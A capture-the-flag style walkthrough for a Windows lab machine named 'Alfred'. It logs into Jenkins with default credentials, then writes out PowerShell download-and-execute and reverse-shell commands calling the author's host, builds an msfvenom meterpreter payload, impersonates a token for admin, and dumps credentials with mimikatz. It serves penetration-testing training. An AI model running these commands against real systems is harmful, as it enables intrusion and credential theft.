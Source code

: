 Exploited Jenkins gained an initial shell, then escalated privileges by exploiting Windows authentication tokens. Deployment of meterpreter with web_delivery. 

----------

Legal Usage: The information provided by executeatwill is to be used for educational purposes only. The website creator and/or editor is in no way responsible for any misuse of the information provided. All the information on this website is meant to help the reader develop penetration testing and vulnerability aptitude to prevent attacks discussed. In no way should you use the information to cause any kind of damage directly or indirectly. Information provided by this website is to be regarded from an “ethical hacker” standpoint. Only preform testing on systems you OWN and/or have expressed written permission. Use information at your own risk.
By continued reading, you acknowledge the aforementioned user risks/responsibilities.

----------

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585775160807_image.png)



# Recon
Target: 10.10.230.14

**Nmap scan:**

    nmap -sV -sC -oA nmap/alfred 10.10.230.14 -Pn

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585766466669_image.png)


**Nmap all ports:**

    nmap -p- nmap/alfred_allports 10.10.230.14 -Pn

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585767313953_image.png)


Open Port Review:

Port 80 - Microsft IIS httpd 7.5 - webserver

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585766694659_image.png)


image bruce.jpg and email exposed `alfred@wayneeterprises.com`.

Port 3389 - Remote RDP
Port 8080 - Jetty 9.4.z-SNAPSHOT - webserver

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585766826381_image.png)


login attempt with `admin:admin` enable access to backend.

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585766903480_image.png)


version number exposed as `Jenkins ver. 2.190.1`

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585767468918_image.png)


Jenkins searchsploit:

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585767530004_image.png)


## accessing console

discovered console:

    http://10.10.230.14:8080/job/project/1/console

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585767075782_image.png)


Under “Build” section of the `/job/project/configure` the “whoami” offers an ability execute commands on the target system.


# Reverse Shell

using nishang `PowerShellTcp.ps1` to create a reverse shell:

Github Link: https://github.com/samratashok/nishang.git

creating webserver on local machine via python3

    python3 -m http.server

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585768324089_image.png)


adding powershell command to console “Build” section:

    powershell iex (New-Object Net.WebClient).DownloadString('http://10.8.20.45:8000/PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.8.20.45 -Port 9000

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585768533565_image.png)


Listener setup:
rlwrap allows for (up, down, left, right keyboard commands)

    rlwrap nc -lvnp 9000

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585768713613_image.png)

**Connection received:**

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585768868433_image.png)


**Systeminfo**

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585771800880_image.png)


**User.txt** 
located: `C:\Users\bruce\desktop\user.txt`

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585776055961_image.png)


# Upgrading shell to meterpreter shell

create payload with msfvenom

    msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai EXITFUNC=thread LHOST=10.8.20.45 LPORT=9001 -f exe -o revshell9001exit.exe

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585769169449_image.png)

**Setup multi/handler**

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585769423692_image.png)

**Download revshell to target**

    powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.8.20.45:8000/revshell9001.exe','revshell9001.exe')"

Start process with:

    Start-Process "revshell9001.exe"

(in my case meterpreter would hang and never fully connect to handler. Moved to creating meterpreter session with web_delivery)

**Creating Meterpreter shell via web_delivery**

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585774103165_image.png)


took the generated code and executed on target:

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585774177738_image.png)

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585774143422_image.png)


**Migrate to higher process**

    ps
    migrate

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585774491520_image.png)


elevated:

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585774529650_image.png)


# Windows User Impersonation

investigate privleages of bruce:

    whoami /priv

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585771129738_image.png)


from this we are able exploit as they are enabled:

    SeDebugPrivilege
    SeImpersonatePrivilege 

**Load Incognito + List tokens within meterpreter**

    load incognito
    list_tokens -g

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585774715943_image.png)


 **Impersonate token**

    impersonate_token "BUILTIN\Administrators"

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585773873560_image.png)


## root.txt

located at `C:\Windows\System32\config`

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585775871288_image.png)


# Post Exploitation
## mimikatz extract
    load kiwi
    get_creds

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585775978547_image.png)


